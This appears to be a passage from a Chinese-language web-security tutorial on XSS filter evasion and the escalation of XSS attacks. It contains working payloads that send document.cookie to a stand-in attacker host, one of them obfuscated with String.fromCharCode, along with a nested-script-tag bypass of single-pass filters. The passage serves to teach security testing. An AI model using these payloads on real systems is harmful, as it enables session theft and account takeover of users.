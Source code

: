 ```
<scrIPT>location=String.fromCharCode(104, 116, 116, 112, 58, 47, 
47, 97, 116, 116, 97, 99, 107, 101, 114, 95, 115, 101, 114, 118, 
101, 114, 95, 105, 112, 47, 63, 99, 61)+document.cookie;</scrIPT>
```

`String.fromCharCode()`函数接受一组 ASCII 字符代码作为输入，返回一个字符串。你可以使用这段代码通过使用在线 JavaScript 编辑器，如*https://js.do/*，来运行 JavaScript 代码，或者将其保存为 HTML 文件并在浏览器中加载，从而将你的漏洞字符串转换为 ASCII 数字序列：

```
<script>1 function ascii(c){ return c.charCodeAt();
}2 encoded = "INPUT_STRING".split("").map(ascii);3 document.write(encoded);
</script>
```

`ascii()`函数 1 将字符转换为其 ASCII 数值表示。我们将输入字符串中的每个字符都通过`ascii()`2。最后，我们将翻译后的字符串写入文档 3。让我们通过这段代码使用`http://attacker_server_ip/?c=`来翻译这个有效负载：

```
<script>
function ascii(c){ return c.charCodeAt();
}
encoded = "**http://attacker_server_ip/?c=**".split("").map(ascii);
document.write(encoded);
</script>
```

这段 JavaScript 代码应该输出`"104, 116, 116, 112, 58, 47, 47, 97, 116, 116, 97, 99, 107, 101, 114, 95, 115, 101, 114, 118, 101, 114, 95, 105, 112, 47, 63, 99, 61"`。你可以通过使用`fromCharCode()`方法来构造你的有效负载。

### 过滤器逻辑错误

最后，你可以利用过滤器逻辑中的任何错误。例如，有时应用程序会移除用户输入中的所有`<script>`标签以防止 XSS，但只执行一次。如果是这种情况，你可以使用像这样的有效负载：

```
<scrip<script>t>
location='http://attacker_server_ip/c='+document.cookie;
</scrip</script>t>
```

注意，每个`<script>`标签会将另一个`<script>`标签分割成两个。过滤器不会识别这些破损的标签为合法标签，但一旦过滤器从此有效负载中移除完整的标签，渲染后的输入就会变成一段完全有效的 JavaScript 代码：

```
<script>location='http://attacker_server_ip/c='+document.cookie;</script>
```

这些只是你可以尝试的几种过滤器绕过技术。XSS 防护很难做到完全正确，黑客们不断发明新的技术来绕过防护。这就是为什么黑客们仍然在不断发现并利用 XSS 漏洞。欲了解更多绕过过滤器的点子，请查看 OWASP 的 XSS 过滤器规避备忘单（[`owasp.org/www-community/xss-filter-evasion-cheatsheet`](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)）。你还可以通过 Google 搜索*XSS filter bypass*来阅读更多有趣的文章。

## 升级攻击

XSS 的影响因多个因素而异。例如，XSS 的类型决定了可能受影响的用户数量。存储型 XSS 在公共论坛上可能攻击任何访问该论坛页面的用户，因此存储型 XSS 被认为是最严重的。另一方面，反射型 XSS 或 DOM XSS 只会影响点击恶意链接的用户，而自我 XSS 需要大量的用户交互和社会工程学手段才能执行，因此通常被认为是低影响。

受影响用户的身份也很重要。假设一个存储型 XSS 漏洞存在于某个站点的服务器日志中。这个 XSS 可以影响系统管理员，并允许攻击者接管他们的会话。由于受影响的用户是具有高权限的账户，XSS 漏洞可能危及整个应用的完整性。你可能会获得对客户数据、内部文件和 API 密钥的访问权限，甚至可能通过上传 shell 或以管理员身份执行脚本，将攻击升级为远程代码执行（RCE）。
